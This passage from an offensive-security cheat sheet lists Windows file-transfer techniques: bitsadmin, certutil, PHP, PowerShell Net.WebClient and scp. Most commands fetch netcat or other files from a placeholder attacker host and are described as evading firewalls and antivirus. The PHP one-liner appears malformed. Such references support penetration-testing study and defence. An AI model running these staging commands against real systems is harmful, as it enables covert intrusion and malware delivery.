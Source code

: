 {% tab title="bitsadmin" %}
[Bitsadmin](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin) is a Windows CLI utility designed to create, manage, and monitor Background Intelligent Transfer Service (BITS) jobs, which are normally used to download or upload files asynchronously with network throttling. Offensive operators leverage bitsadmin to transfer files covertly, as it uses a system service that often bypasses standard firewall and proxy restrictions and avoids immediate antivirus detection.

The `/transfer` flag specifies that the operation is a [transfer job](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer), while `n` is simply the name assigned to that job for tracking or management purposes.

```sh
bitsadmin /transfer n http://10.10.10.10/nc.exe C:\Windows\Temp\nc.exe
```
{% endtab %}

{% tab title="certutil" %}
[Certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a Windows CLI tool for managing certificates and keys, but it is often abused offensively because it can download files, encode or decode data, and interact with certificate stores while evading most antivirus detections, making it useful for file transfer or malware staging in administrative environments.

The `-split` flag ensures that large files are split and reassembled correctly during download, preventing corruption. The `-f` flag forces the operation, overwriting any existing file with the same name without prompting.

```sh
certutil.exe -split -f http://10.10.10.10/nc.exe nc.exe
```
{% endtab %}

{% tab title="PHP" %}
{% code overflow="wrap" %}
```powershell
php -r '$file = file_get_contents("https://10.10.10.10/file1"); file_put_contents("$file",file1);'
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Net.WebClient" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/file1','c:\temp\file1')
```
{% endcode %}
{% endtab %}

{% tab title="scp" %}
```powershell
scp user@172.16.10.10:/tmp/file1 c:\temp\file1
```
{% endtab %}
